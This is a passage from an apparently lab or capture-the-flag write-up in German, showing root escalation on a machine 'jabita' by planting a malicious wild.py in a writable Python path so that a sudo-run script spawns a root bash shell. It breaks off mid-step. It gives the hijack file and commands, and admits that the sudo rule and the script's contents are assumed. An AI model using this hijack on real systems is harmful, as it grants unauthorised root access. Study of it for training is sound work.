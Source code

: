 1.  **Enumeration als `jaba`:**
    *   `python3 -c "import sys; print(sys.path)"` zeigte den Python-Modul-Suchpfad. Das Verzeichnis `/usr/local/lib/python3.10/dist-packages` stand relativ am Anfang.
    *   Es wurde angenommen, dass `jaba` Schreibrechte auf dieses Verzeichnis hat.
    *   Eine (implizite) `sudo -l`-Prüfung für `jaba` offenbarte:
        ```
        # Angenommene sudo-Regel für jaba (nicht explizit im Log, aber für Exploit notwendig):
        # (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py 
        ```
    *   Das Skript `/usr/bin/clean.py` (dessen Inhalt `import wild` und `wild.first()` angenommen wird) wurde als Ziel identifiziert.

2.  **Vorbereitung des Python Library Hijackings:**
    *   Eine bösartige Datei `wild.py` wurde in `/usr/local/lib/python3.10/dist-packages/` erstellt:
        ```python
        # /usr/local/lib/python3.10/dist-packages/wild.py
        import pty
        def first(): # Angenommen, clean.py ruft diese Funktion auf
            pty.spawn('/bin/bash')
        ```

3.  **Ausführung des Exploits:**
    *   `jaba@jabita:/tmp$ sudo /usr/bin/python3 /usr/bin/clean.py`
    *   Das Skript `clean.py` importierte nun die bösartige `wild.py`, deren `first()`-Funktion ausgeführt wurde und eine Bash-Shell mit Root-Rechten startete.

---

## Proof of Concept (Finale Root-Eskalation via Python Library Hijacking)

**Kurzbeschreibung:** Die finale Privilegieneskalation nutzte eine `sudo`-Regel, die `jaba` erlaubte, ein Python-Skript (`/usr/bin/clean.py`) als `root` auszuführen. Dieses Skript importierte ein Modul (`wild`). Da `jaba` Schreibrechte auf ein Verzeichnis hatte, das im Python-Suchpfad (`sys.path`) vor den Standard-Systembibliotheken lag (`/usr/local/lib/python3.10/dist-packages/`), konnte eine bösartige `wild.py`-Datei dort platziert werden. Beim Ausführen des `sudo`-Befehls wurde diese bösartige Bibliothek geladen und führte Code aus, der eine Root-Shell startete.

**Schritte (als `jaba`):**
1.  Erstelle die bösartige Python-Bibliothek (angenommen, `clean.py` ruft `wild.first()` auf):
    ```bash
    # echo -e "import pty\ndef first():\n\tpty.spawn('/bin/bash')" > /usr/local/lib/python3.10/dist-packages/wild.py
    vi /usr/local/lib/python3.10/dist-packages/wild.py 
    # Inhalt:
    # import pty
    # def first():
    #   pty.spawn('/bin/bash')
    ```
2.  Führe das Python-Skript mit `sudo` aus:
    ```bash